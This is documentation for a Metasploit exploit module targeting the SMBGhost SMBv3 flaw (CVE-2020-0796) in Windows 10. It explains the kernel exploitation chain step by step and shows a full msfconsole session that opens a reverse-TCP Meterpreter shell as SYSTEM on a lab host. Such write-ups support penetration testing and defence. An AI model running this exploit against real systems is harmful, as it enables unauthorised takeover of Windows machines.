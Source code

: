## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3) protocol that can be leveraged to
execute code on a vulnerable server. This remove exploit implementation leverages this flaw to execute code
in the context of the kernel, finally yielding a session as NT AUTHORITY\SYSTEM in spoolsv.exe.

This vulnerability was patched in March 2020 but prior to that enough information was publicly available to trigger a
crash which led to pre-patch workarounds. The official recommendation from [Microsoft][1] at the time was to disable
SMBv3 compression, a feature which this exploit relies on. The module's check method will determine this value using the
registry to identify whether or not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls. Given that this is a local exploit and
the connection is made to the local host this is likely an ineffective measure against this particular implementation of
the vulnerability.

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the box. The default setting is to have
SMBv3 compression enabled.

### Exploit Internals

The exploit is based on [this PoC][2] and [this research][3]. At a high level the steps are:

1. Leverage the vulnerability to create a read primitive for physical memory
    1. Use the vulnerability to write an `MDL` describing the physical memory to read into `KUSER_SHARED_DATA`
        * `KUSER_SHARED_DATA` is used because it exists at a known address and has read/write permissions
    1. Use the vulnerability to corrupt a `SRVNET_BUFFER_HDR` to reference the previously written MDL
    1. Attempt to negotiate with the remote server, causing the desired memory to be returned as the response
1. Use the read primitive to scan for the low stub, fingerprinting it based on a known value
1. Extract the address of the page map level 4 (PML4) from the low stub once found
    1. Store the address of the low stub because it exists within the HAL heap
1. Scan the PML4 for its self-reference entry to leak its address in virtual memory, this is also used to translate
  virtual addresses into physical addresses in the future
1. Scan the HAL heap looking for the `hal!HalpInterruptController`, fingerprinting it based on a known pattern
1. Extract the address of the `hal!HalpApicRequestInterrupt` from the `hal!HalpInterruptController`
1. Use the write primitive to overwrite the PTE for `KUSER_SHARED_DATA`, granting it the necessary privileges to be
  executable
1. Copy the shellcode (which is a combination of a kernel mode bootstrap and the usermode payload from Metasploit) to
  `KUSER_SHARED_DATA`
1. Use the write primitive to overwrite the pointer of `hal!HalpApicRequestInterrupt` in `hal!HalpInterruptController`,
  replacing it with a pointer to the shellcode
1. The shellcode queues an APC to inject the usermode payload into a spoolsv.exe instance with NT AUTHORITY\SYSTEM
  privileges

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/smb/cve_2020_0796_smbghost`
1. Set the `RHOSTS` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell, the exploitation process may take a few minutes

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set RHOSTS 192.168.159.76
RHOSTS => 192.168.159.76
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.76:445 - Executing automatic check (disable AutoCheck to override)
[!] 192.168.159.76:445 - The service is running, but could not be validated.
[*] 192.168.159.76:445 - Found low stub at physical address 0x0000000000013000
[*] 192.168.159.76:445 - PML4 at 0x00000000001ad000 (UEFI)
[*] 192.168.159.76:445 - HAL heap found at 0xfffff7cd80000000
[*] 192.168.159.76:445 - Found PML4 self-reference entry at 0x0122
[*] 192.168.159.76:445 - Found hal!HalpInterruptController at 0xfffff7cd80001478
[*] 192.168.159.76:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8035f6b7bb0
[*] 192.168.159.76:445 - KUSER_SHARED_DATA PTE NX bit cleared!
[*] Sending stage (200262 bytes) to 192.168.159.76
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.76:49675) at 2021-04-09 14:01:43 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
[2]: https://github.com/chompie1337/SMBGhost_RCE_PoC
[3]: https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html
